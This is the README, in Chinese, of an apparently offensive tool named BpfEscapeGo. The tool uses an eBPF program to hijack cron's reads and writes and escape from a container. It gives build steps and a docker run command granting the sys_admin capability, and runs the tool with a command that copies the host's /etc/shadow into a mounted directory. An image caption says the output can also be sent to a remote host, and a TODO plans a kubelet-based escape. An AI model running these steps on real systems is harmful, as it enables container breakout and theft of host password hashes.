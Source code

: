 # BpfEscapeGo
## 主要功能

使用 ebpf 程序劫持 cron 的 io 读写 进行容器逃逸

## 使用方式

### 直接使用主机
```bash
make build
sudo ./bpfescapego
```

### 使用容器的方式
```bash
docker run -it --cap-add sys_admin -v `pwd`:/tmp  ubuntu
# copy `bpfescapego` binary to container
./bpfescapego "cat /etc/shadow > /tmp/hello"
```

下图是展示将输出重定向到远程主机的操作

![输出重定向到远程接收图片](https://github.com/awslshadowstar/BpfEscapeGo/assets/52888924/6039130a-b8f4-430f-a2e4-3485ffa5427e)

### TODO list
劫持 kubelet 实现容器逃逸